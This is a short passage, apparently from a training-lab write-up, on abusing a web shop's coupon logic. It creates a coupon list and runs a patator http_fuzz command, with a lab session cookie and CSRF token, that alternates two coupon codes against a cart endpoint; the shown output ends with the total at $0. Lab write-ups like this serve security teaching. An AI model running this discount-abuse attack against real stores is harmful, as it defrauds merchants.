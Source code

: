 ```bash
$ echo "NEWCUST5" > coupon-codes.txt
$ echo "SIGNUP30" >> coupon-codes.txt
$ patator http_fuzz url='https://ac771f321fc414ac803f39af00e3003d.web-security-academy.net/cart/coupon' method=POST header='Cookie: session=tEKaMiJ5TysYulvlnoBDcvDkfLZvRvYY' body='csrf=797ba3sH5UYf4H35Y7bQ5renrF9lw2Kb&coupon=FILE1&iteration=RANGE0' 0=int:1-4 1=coupon-codes.txt -t 1

20:32:50 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-29 20:32 CDT
20:32:50 patator    INFO -
20:32:50 patator    INFO - code size:clen       time | candidate                          |   num | mesg
20:32:50 patator    INFO - -----------------------------------------------------------------------------
20:32:50 patator    INFO - 302  77:0           0.128 | 1:NEWCUST5                         |     1 | HTTP/1.1 302 Found
20:32:51 patator    INFO - 302  77:0           0.129 | 1:SIGNUP30                         |     2 | HTTP/1.1 302 Found
20:32:52 patator    INFO - 302  77:0           0.123 | 2:NEWCUST5                         |     3 | HTTP/1.1 302 Found
20:32:52 patator    INFO - 302  77:0           0.125 | 2:SIGNUP30                         |     4 | HTTP/1.1 302 Found
20:32:53 patator    INFO - 302  77:0           0.125 | 3:NEWCUST5                         |     5 | HTTP/1.1 302 Found
20:32:53 patator    INFO - 302  77:0           0.130 | 3:SIGNUP30                         |     6 | HTTP/1.1 302 Found
20:32:54 patator    INFO - 302  77:0           0.127 | 4:NEWCUST5                         |     7 | HTTP/1.1 302 Found
20:32:54 patator    INFO - 302  77:0           0.129 | 4:SIGNUP30                         |     8 | HTTP/1.1 302 Found
20:32:55 patator    INFO - Hits/Done/Skip/Fail/Size: 8/8/0/0/8, Avg: 1 r/s, Time: 0h 0m 5s
```

This brings the total to $0!

